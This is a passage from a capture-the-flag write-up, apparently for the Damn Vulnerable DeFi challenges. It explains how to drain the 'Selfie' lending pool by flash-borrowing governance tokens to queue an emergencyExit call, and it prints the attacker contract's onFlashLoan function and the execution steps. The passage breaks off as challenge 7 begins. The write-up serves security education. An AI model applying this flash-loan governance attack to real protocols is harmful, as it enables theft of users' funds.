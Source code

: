 ## 6 - Selfie

The selfie pool has a governance token that can be used to queue actions. When an action has received more than half of the voting tokens supply of votes and 2 days have passed the action can be executed. The goal is to drain the pool's balance.

The pool has an `emergencyExit` function to transfer all of the contracts balance to a specified receiver. The function can only be called by the governance contract. The goal is to somehow exploit the governance contract to call the `emergencyExit` function and transfer all the funds to the attacker. 

Other than the flash loan pool before the selfie pool will give out the voting token when flash loaning and not the DVT token. At this point an idea how to exploit the pool becomes clearer: The attacker can flash loan the voting token, initiate an action with the gained voting power, pay back the voting token and wait 2 days before the action can be executed.

The main logic is in the attacker's `onFlashLoan` function. The attacker contract implements the `IERC3156FlashBorrower´` interface and thus the
`onFlashLoan` function. First the attacker has to delegate the voting power to itself to be able to use the votes. With the gained voting power the attacker can queue the action to call the emergency exit function of the pool. 

```javascript
function onFlashLoan(
        address, // initiator
        address, // token
        uint256, // amount
        uint256, // fee
        bytes calldata // data
    ) external override returns (bytes32) {
        // Delegate voting power to this contract
        token.delegate(address(this));
        // Action to emergency exit
        bytes memory emergencyExitFunction = abi.encodeWithSelector(pool.emergencyExit.selector, recovery);
        // Queue action to drain the pool
        governance.queueAction(address(pool), 0, emergencyExitFunction);
        // Approve the pool to pull the flash loan back
        token.approve(address(pool), token.balanceOf(address(this)));
        return keccak256("ERC3156FlashBorrower.onFlashLoan"); 
    }
```

After queueing the action the attacker has to wait 2 days and can than execute the action:

```javascript
vm.warp(block.timestamp + 2 days);
governance.executeAction(1);
```

## 7 - Compromised

The challenge presents a cryptic HTTP response from a DeFi project's web service. This project deals in NFTs, with prices determined by consulting three trusted sources.
